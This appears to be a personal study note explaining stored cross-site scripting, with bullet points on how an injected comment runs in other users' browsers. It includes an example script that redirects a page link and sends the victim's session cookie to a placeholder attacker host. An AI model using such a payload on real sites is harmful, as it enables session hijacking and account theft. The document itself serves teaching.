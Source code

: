 tags: #web-security #xss

# Stored XSS

links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[500 WS MOC|WS MOC]] - [[themes/000 Index|Index]]

---

- Attacker posts a script as a regular post / comment
- Post / comment is sent to the server
- When a user opens the post / comment the page is rendered and the script is executed
- Can lead to modifications in the DOM (change links, add buttons)
- Or, worse, sending personal information of users to attacker

Attacker Comment
```javascript
<script>
// Change the first link on the page
var links = document.getElementsByTagName('a');
if (links.length > 0) {
	links[0].href = "http://malicious-site.com";
	links[0].textContent = 'Important Update'; 
}

// Send the current session ID to the attacker's server
var sessionId = document.cookie.match(
	/sessionid=([^;]+)/)[1];
if (sessionId) {
	var attackerServer = 'http://attacker-site.com/';
	var img = new Image();
	// Browser sends GET with sessionID in path
	img.src = attackerServer +
		"collect?sessionid=" + sessionId;
		document.body.appendChild(img);
}
</script>
```

^7ac058

---
links: [[505 WS TOC - Cross Site Scripting (XSS)|WS TOC - Cross Site Scripting (XSS)]] - [[500 WS MOC|WS MOC]] - [[themes/000 Index|Index]]
